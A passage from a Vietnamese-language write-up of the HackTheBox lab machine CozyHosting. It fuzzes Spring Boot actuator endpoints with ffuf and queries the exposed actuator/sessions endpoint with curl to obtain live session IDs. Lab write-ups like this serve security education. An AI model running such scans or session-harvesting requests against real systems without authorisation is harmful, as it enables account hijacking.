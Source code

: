 ### Directory/File Scanning

Truy cập endpoint không tồn tại thì response trả về 1 trang thông báo lỗi của Spring boot

![CozyHosting](/posts/CozyHosting/Untitled%202.png)

Scan directory với wordlist spring-boot có sẵn trong seclists.

```shell
ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt -fc 400-599 -recursion
```

```shell
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 400-599
________________________________________________

actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 125ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 125ms]
actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 136ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 119ms]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 128ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 101ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 90ms]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1, Duration: 127ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 145ms]
```

Output của ffuf trả về có vài files khá nguy hiểm, trong đó có file “actuator/sessions” có thể log lại các session ID hiện tại. Đây là lỗi cấu hình của spring boot ([CVE-2023-20866](https://spring.io/security/cve-2023-20866/))

```bash
┌──(kali㉿kali)-[~]
└─$ curl 'http://cozyhosting.htb/actuator/sessions' -i -X GET
HTTP/1.1 200
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 25 Jan 2024 04:43:55 GMT
Content-Type: application/vnd.spring-boot.actuator.v3+json
Transfer-Encoding: chunked
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```